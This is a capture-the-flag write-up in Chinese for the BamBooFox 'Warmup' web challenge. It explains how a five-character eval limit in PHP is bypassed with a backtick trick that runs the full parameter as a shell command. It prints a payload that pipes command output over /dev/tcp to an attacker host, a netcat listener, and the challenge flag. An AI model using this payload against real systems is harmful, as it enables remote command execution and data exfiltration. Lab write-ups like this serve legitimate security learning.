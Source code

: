 # BamBooFox: Warmup

**Category:** WEB  

## Write-up
這題跟官方解法一樣，首先題目給的 Source Code 如下。  

```php
<?php

    highlight_file(__FILE__);

    if ($x = @$_GET['x'])
        eval(substr($x, 0, 5));
```

然後這邊也從學弟那邊學到一個小知識，`@` 代表的意思是不輸出錯誤訊息，這題主要是僅能餵給 `eval` 參數吃長度為 5 的字串，首先思路為 `` `$x`; `` 接著背後接著系統指令。  

但由於不會回顯的關係，需要將回傳的內容往外送出來，可以使用 `bash -c 'ls > /dev/tcp/<Host>/<Port>'`，串接起來如下。  

```
`$x`;bash -c 'ls > /dev/tcp/<Your-Host>/<Port>'
```

原本沒有 VPS 可以拿來接收資料，而嘗試使用 requestbin 之類的服務，不曉得原因，可能是這種類似不服務只吃 HTTP 吧，隨後使用跟學弟借來的 VPS 來接 ls 的輸出。  

```
nc -lv <Port>
```

![](img/img01.png)  

簡單說明原理，首先前五個字元 `$x`; 會被 `substr($x, 0, 5)` 所保留下來，而到 `` eval(`$x;`) `` 的時候，會再次執行一次 `` `$x` ``，而該次執行的 `$x` 並沒有經過 `substr($x, 0, 5)` 處理。  

此外 `` ` `` 的意思就如同使用 `shell_exec()`，所以會將字串以系統指令的方式執行，而 `` `$x;` ``，在 Linux 上，若沒有刻意設定 $x 的 Local 變數值，預設為空，可以嘗試在 Linux 上執行 `` `$x;` ``，就會發現什麼也不會發生，除非有指定過參數，例如 `x="Hello World"`，再接著執行 `echo $x`，就可以看出端倪。  

**GetFlag:**

`BAMBOOFOX{d22a508c497c1ba84fb3e8aab238a74e}`